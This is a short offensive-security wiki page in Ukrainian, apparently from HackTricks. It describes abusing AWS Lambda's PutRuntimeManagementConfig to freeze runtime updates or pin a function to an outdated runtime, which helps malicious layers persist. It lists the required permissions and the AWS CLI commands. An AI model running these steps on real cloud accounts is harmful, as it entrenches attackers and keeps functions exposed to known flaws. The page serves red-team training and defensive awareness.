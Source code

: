 # AWS Lambda – Runtime Pinning/Rollback Abuse via PutRuntimeManagementConfig

{{#include ../../../../banners/hacktricks-training.md}}

Зловживайте `lambda:PutRuntimeManagementConfig`, щоб закріпити функцію за конкретною версією runtime (Manual) або заморозити оновлення (FunctionUpdate). Це зберігає сумісність зі шкідливими layers/wrappers і може тримати функцію на застарілому, вразливому runtime, що сприяє експлуатації та довготривалій персистентності.

Вимоги: `lambda:InvokeFunction`, `logs:FilterLogEvents`, `lambda:PutRuntimeManagementConfig`, `lambda:GetRuntimeManagementConfig`.

Приклад (us-east-1):
- Виклик: `aws lambda invoke --function-name  /tmp/ping.json --payload {} --region us-east-1 > /dev/null; sleep 5`
- Заморозити оновлення: `aws lambda put-runtime-management-config --function-name  --update-runtime-on FunctionUpdate --region us-east-1`
- Перевірити: `aws lambda get-runtime-management-config --function-name  --region us-east-1`

За бажанням можна закріпити до конкретної версії runtime, витягнувши Runtime Version ARN з логів INIT_START та використавши `--update-runtime-on Manual --runtime-version-arn <arn>`.

{{#include ../../../../banners/hacktricks-training.md}}
